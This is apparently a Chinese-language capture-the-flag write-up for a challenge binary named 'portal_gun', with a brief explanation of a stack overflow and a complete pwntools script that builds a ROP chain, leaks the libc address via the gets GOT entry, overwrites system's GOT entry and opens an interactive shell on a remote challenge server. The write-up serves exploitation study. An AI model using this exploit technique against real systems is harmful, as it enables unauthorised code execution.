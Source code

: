 只有 NX  與 Partial RELRO ，代表需要透過其他手法執行傳入的 shellcode 以 ROP 處理 。

先將 buffer 填滿約為 112 + 8 的大小，後面擺放 ROP Chain ，並且打印 gets 的 GOT 內容，並且參照該內容找到 lib 的  system 函數地址，將原先被 hook 的 system 重新 hook ，不然進入 PLT 會跑到不能使用的 system。

為了避免 shellcode 執行上的問題，可能與不同系統有關，這裡 return shellcode 兩次似乎比較穩定。

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf
import pwnlib.shellcraft


e = ELF('./portal_gun-43fcd0f6ae670ddb11a66bbfbca721410941ee30a5d1d802a6f509bcf7a765ac')
c = remote('60.250.197.227', 10002)
lib = ELF('./libc.so.6-cd7c1a035d24122798d97a47a10f6e2b71d58710aecfd392375f1aa9bdde164d')

#lib = ELF('/lib/libc-2.31.so')
#c = process('./portal_gun-43fcd0f6ae670ddb11a66bbfbca721410941ee30a5d1d802a6f509bcf7a765ac', env={'LD_PRELOAD': './hook.so-997c848132f9fae3a5ffdb0edf7c9071a0dcdebb99c116c5bd011efd28c942ae'})

context.terminal = ['alacritty', '-e', 'sh', '-c']
#gdb.attach(c)

#init
context.os='linux'
context.arch='amd64'
context.log_level ='debug'

ans = b'A' * (112 + 8) # fill buffer

# get gets location
p = p64(0x00000000004007a3) # pop rdi ; ret
p += p64(e.got['gets'])
p += p64(0x400560) # puts

# rehook system to exec
p += p64(0x00000000004007a3) # pop rdi ; ret
p += p64(e.got['system'])
p += p64(0x400580) # gets

# ret to call system
p += p64(0x4006e8)
p += p64(0x4006e8)

ans += p
c.sendline(ans)

# drip line
c.recvline()
c.recvline()

# get lib address
gets_addr = int.from_bytes(c.recvline(), "little") & 0x0000ffffffffffff
print(hex(gets_addr))

# write new system
lib_start = gets_addr - lib.symbols['gets']
lib_system = lib_start + lib.symbols['system']
c.sendline(p64(lib_system))

c.interactive()
c.close()
```
